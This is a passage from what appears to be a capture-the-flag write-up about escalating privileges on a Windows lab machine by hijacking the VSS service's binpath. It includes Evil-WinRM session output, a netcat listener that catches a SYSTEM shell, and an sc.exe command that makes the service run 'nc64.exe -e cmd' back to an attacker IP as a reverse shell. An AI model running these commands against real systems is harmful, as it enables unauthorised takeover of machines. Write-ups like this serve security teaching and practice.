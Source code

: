 ```
*Evil-WinRM* PS C:\programdata> sc.exe stop VSS
[SC] ControlService FAILED 1062:

The service has not been started.
*Evil-WinRM* PS C:\programdata> sc.exe start VSS
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.

```

At first there’s no response here, and a connection at `nc`:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.108 54572
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>

```

After 30 seconds, the service times out, and returns an error message:

```
*Evil-WinRM* PS C:\programdata> sc.exe start VSS
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.

```

At that same point, the shell dies. Still, if I move quickly, I can get the flag:

```

C:\Users\Administrator\Desktop>type root.txt
2e3771d0************************

```

#### Better Reverse Shell

When the service fails to start in a service way (there are specific requirements for a service binary), then it kills the running process. If I have the service binary actually be `cmd.exe`, and have that start `nc64.exe`, then the `nc64.exe` will continue even after `cmd.exe` is killed:

```
*Evil-WinRM* PS C:\programdata> sc.exe config VSS binpath="C:\windows\system32\cmd.exe /c C:\programdata\nc64.exe -e cmd 10.10.14.6 443"
[SC] ChangeServiceConfig SUCCESS
*Evil-WinRM* PS C:\programdata> sc.exe start VSS
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.

```
